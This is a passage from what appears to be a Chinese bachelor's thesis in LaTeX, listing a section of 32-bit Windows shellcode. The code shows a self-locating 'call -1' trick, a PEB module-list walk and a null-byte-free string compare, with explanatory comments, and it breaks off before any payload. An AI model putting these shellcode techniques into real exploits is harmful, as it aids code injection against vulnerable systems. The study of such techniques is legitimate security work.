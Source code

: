 \documentclass[bachelor]{thesis-uestc}
\begin{document}
\subsection{最终的shellcode}
\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
__asm
{
/*********************************************************/
/*                    CODE_ENTRY                         */
/*********************************************************/
CODE_ENTRY:
/* 0 */	_EMIT 0xE8;
/* 1 */	_EMIT 0xFF;
/* 2 */	_EMIT 0xFF;
/* 3 */	_EMIT 0xFF;
/* 4 */	_EMIT 0xFF; // call 0xFFFFFFFF
LABEL_BASE:
/* 5 */	_EMIT 0xC2;
/* 6 */	_EMIT 0x59;
/* 7 */	_EMIT 0x90;
// "call -1"后LABEL_BASE的地址被压栈, 然后eip指向标号4, 将标号4和5的"FFC2"译码成"inc edx";
// 然后执行标号6的"pop ecx"(59), 将保存在栈顶的LABEL_BASE的地址pop进ecx; 之后执行标号7的"nop"(90).
// 至此实现了自定位——LABEL_BASE的地址被保存在ecx
_GetLibcBaseAddress:
	xor ebx, ebx;
	mov eax, fs:[ebx + 0x30]; // linear address of PEB (直接"mov eax,fs:[0x30]"会使代码中出现0x00)
	mov eax, [eax + 0xc]; // 从PEB结构体偏移0xc处取得PEB_LDR_DATA结构体的地址
	mov ebx, [eax + 0xc]; // ebx <- 第一个LDR_MODULE的地址
	mov edx, ebx; // edx保存循环链表的头地址
SEARCH_MODULE_LOOP:
	mov eax, ebx;
	add eax, 0x2C + 0x4; // LDR_MODULE偏移0x2C处是BaseDllName, 一个UNICODE_STRING, 其中偏移0x4处是一个指向UNICODE字符串的指针
	mov esi, [eax];
	mov edi, LIBC_NAME;
	sub edi, LABEL_BASE; // 这两个label的地址中不能出现0x00, 如果有就重新编译知道满足要求
	add edi, ecx;
/*********************************************************/
/*        bool _strcmp(wchar *s1, char *s2)              */
/*        - args: esi = s1, edi = s2(end with '$')       */
/*        - ret: al=1 if equal, al=0 if NOT equal        */
/*********************************************************/
// 这里本可以写成"call _strcmp", 但是这样会在代码中出现0x00, 所以直接将函数嵌入进来
_strcmp:
	push ebx;
LOOP_CMP_STRCMP:
	mov al, [esi];
	mov bl, [edi];
	cmp al, bl;
	je CONTINUE_STRCMP;
	test al, al;
	jnz NOT_EQUAL_STRCMP;
	cmp bl, '$'; // 两个字符串同时结束时al=0,bl='$'
	jne NOT_EQUAL_STRCMP;
	xor al, al;
	inc al; // equal (这两条指令用于替代"mov al,1")
	jmp END_STRCMP;
CONTINUE_STRCMP:
	inc esi;
	inc esi; // 两个"inc esi"一共2字节,一个"add esi,2"却需要3字节
	inc edi;
	jmp LOOP_CMP_STRCMP;
NOT_EQUAL_STRCMP:
	xor al, al; // not equal
END_STRCMP:
	pop ebx;
/******************** end of _strcmp ********************/

\end{lstlisting}
\end{document}
